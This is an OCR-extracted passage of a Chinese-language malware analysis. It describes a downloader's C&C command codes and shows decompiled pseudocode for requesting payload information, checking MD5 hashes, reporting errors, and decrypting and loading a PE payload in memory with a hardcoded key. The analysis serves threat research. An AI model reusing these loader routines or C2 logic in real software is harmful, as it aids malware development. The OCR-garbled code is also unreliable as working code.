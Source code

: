 下载器的操作指令有以下几个。  

<html><body><table><tr><td>参数序号</td><td>说明</td></tr><tr><td>0xA</td><td>开始请求附录，获取有效负载的基本信息</td></tr><tr><td>0x7</td><td>下载有效载荷</td></tr><tr><td>0xB</td><td>报告错误信息</td></tr><tr><td>0xC</td><td>执行payload</td></tr><tr><td>0xD</td><td>结束程序</td></tr></table></body></html>  

下载器向C&C服务器请求后续阶段时，C&C服务器回复的关于payload的基本信息包括：payload编号、长度、执行的导出函数名、初始化的参数以及校验MD5值。在请求后续阶段，C&C服务器同时下发指令结束下载器程序。  

do while（1 // request info loop while（ 1) var_res $=$ MwRequestPayloadInfo(var_urlStr);//请求payLoad,获取相关信息 if ( !var_res) // result $\scriptstyle==\varnothing$ ，sleep goto LABEL_28; if ( var_res != 1 break; //result $\scriptstyle==1$ ，continue the loop Sleep(10000u); if （var_res == 2 // result $==2$ ,successfully get info break; if （var_res $\L=\L=\L~-1$ //result $\L=\L=\L~-1$ ，exit memset(&v32[1], 0, 0x103ui64); Src $=\Theta$ memset(v36,0, sizeof(v36)); $v37~=~\Theta$  

成功获取payload信息后，下载器利用payload编号向C&C服务器获取相应的发票数据，计算下载数据的MD5哈希，与之前获取的校验值进行比较。如果校验不通过则向C&C服务器报告'Hash错误！。  

v1 = g_datalen; $\boldsymbol{\mathsf{v}}2\mathbf{\mathsf{\Omega}}=\mathbf{\mathsf{\Omega}}$ (const BYTE \*)g_hMem; pdwDataLen $\l=$ 16; v4 $\l=$ (char \*)malloc(500ui64); memset(v4, 0, 0x1F4ut64); if ( !CryptAcquirecontextW(&phProv, Oi64, L"Microsoft Base Cryptographic Provider v1.0", 1u, OxFoooooo0) ) v5=GetLastError（）; printf("CryptAcquirecontext failed: %d\n", v5); \*a1 ${}={}$ v5; return 0i64; if （!CryptCreateHash(phProv，CALG_MD5，0i64，θ，&phHash）) $\scriptstyle{\mathrm{~v}}7=$ GetLastError(); printf("CryptCreateHash failed: %d\n", v7); CryptReleaseContext(phProv, 0); \*a1 $\l=$ v7; return 0i64; if （!CryptHashData(phHash，v2，v1，θ）) v8 $=$ GetLastError(); v9 $=$ "CryptHashData failed: %d\n"; LABEL_7: V10 $=$ v8; printf(v9, v8); CryptReleaseContext(phProv,θ); CryptDestroyHash(phHash); \*a1 $=$ v10; return 0i64; if !CryptGetHashParam(phHash,2u, pbData,&pdwDataLen,0）) v8 ${}={}$ GetLastError(); v9 ${}={}$ "CryptGetHashParam failed: %d\n"; goto LABEL_7; if pdwDataLen）  

memset(v72, 0, sizeof(v72));   
$\yen45=$ MwGetPayloadMd5Hex((DWORD \*)&Size); !/计算获取的payLoad的MD5hash，并将其转换为十六进制字符串   
MultiByteTowideChar(0,1u,v45,-1, &WideCharStr,strlen(v45));   
v46 $\l=$ g_payloadHash;   
do   
{ V47 ${}={}$ \*(wchar_t_\*)((char \*)v46 + (char \*)&WideCharStr -(char \*)g_payloadHash); V48 $=$ \*v46 - v47; if（v48) break; ++v46;   
while (v47 ); // this loop check hash   
if( !v48 return 2; //ret value 2:valid data   
v68[0] $=1$ 0；   
memset(&v68[1],0, 0x206ui64);   
V49 $=$ 0i64;   
do v50 $=$ \*(_WORD \*)(v49 $^+$ 0x18001DE28i64); $11$ Ox18001DE28, string 'Hash error!' V49 $+=$ 2i64; \*(_WORD \*)&v67[v49+0x10D] $=$ v50;   
while ( v50 );   
MwReportError(var_urlStr,(__int64)v68);   
if ( g_hMem ) LocalFree(g_hMem); g_hMem $\l=$ 0i64; return 0i64;  

在执行payload阶段，先用和下载器加载过程相同的解密算法对payload解密。检查解密后的数据是否为PE文件，内存加载，然后找到指定恢复函数的内存地址，并确定参数执行。  

strcpy((char \*)var_decryptKey, "LnvC.mh8/t/a5}!Cq?d%SA_j#<6Ua^\$="); $v82=\Theta$ memset(v83, 0,sizeof(v83)); V3 $=$ -1i64; V4 $=$ g_exportFuncName; do { if（!v3) break; v61 = \*v4++ == 0; -V3; while ( !v61 ); LODWORD(Size)=-1; WideCharToMultiByte(0, 0x20ou, g_exportFuncName, -1, &MultiByteStr, -(int)v3 - 2, 0i64, 0i64); sub_180001180((--int64)&v84, var_decryptKey, (int \*)var_decryptKey);// init key sub_1800013E0((--int64)&v84, g_dataLen); I/ decrypt payload v5 = sub_180006D50(); if（!v13->NumberofNamesIl !v13->NumberofFunctions) {   
LABEL_21: v9=（int \*)hMem; goto LABEL_22; V14 = 0; V15 $=$ (unsigned int \*)(v11 $^+$ v13->AddressofNames); V16 ${}={}$ （unsigned_int16 \*)(v11 $^{+}$ v13->AddressofNameordinals); while（stricmp（&MultiByteStr,（const char \*)(v11 $^+$ \*v15))) ++v14; ++v15; ++v16; if (v14 $>=$ v13->NumberOfNames ) goto LABEL_20; V18=\*v16; if((unsigned int)v18 $>$ v13->NumberofFunctions 1i(var_funcAddr $\l=$ (__int64（__fastcall\*)(_QWORD，_QWORD，wchar_t\*，_QWORD))(v11 +\*(unsignedint \*)(v11 $^+$ v13->Address   
LABEL_20: var_urlStr=\*(const WCHAR\*\*）&v78[1]; goto LABEL_21; 了 V20 $=$ (HLocAL)var_funcAddr(@i64,0i64,9_funcArg,@i64); Sleep(2000u);  
